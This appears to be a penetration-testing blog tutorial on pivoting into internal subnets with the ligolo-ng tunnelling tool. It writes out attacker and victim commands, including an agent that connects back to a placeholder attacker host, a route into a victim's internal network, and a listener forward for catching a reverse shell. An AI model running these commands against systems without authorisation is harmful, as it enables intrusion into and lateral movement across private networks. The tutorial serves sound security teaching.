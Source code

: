 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via and getting the proper release for your OS `https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.4`.  It is also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is much faster than a SOCKS proxy, mimicking a VPN.

You can then proceed to start, add and start the proxy server via these commands.

Attacker Machine:
```shell
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod +x proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```shell
./proxy -selfcert -laddr 0.0.0.0:443
```


![](/assets/images/ligolo/1.png)

Victim Machine (Windows or Linux):

Upload the respective file. 
```shell
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![](/assets/images/ligolo/2.png)

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```shell
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![](/assets/images/ligolo/3.png)

For this machine you must also run ```
```shell
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![](/assets/images/ligolo/4.png)

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```


